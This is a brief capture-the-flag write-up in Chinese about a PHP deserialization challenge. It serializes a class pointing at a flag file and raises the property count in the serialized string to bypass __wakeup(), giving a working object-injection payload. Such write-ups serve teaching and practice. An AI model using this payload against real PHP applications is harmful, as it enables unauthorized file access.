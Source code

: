 ![img](./assets/wps317.jpg)

分析源码

提示flag在

fllllllag.php 

*序列化对象*

 

<?php

class X

{

  public $x ='fllllllag.php';

} 

$a = new X;

echo serialize($a);

?>

 

 

O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";} 

 

 

修改数量绕过_wakeup()

O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";} 

![img](./assets/wps318.jpg) 

 

 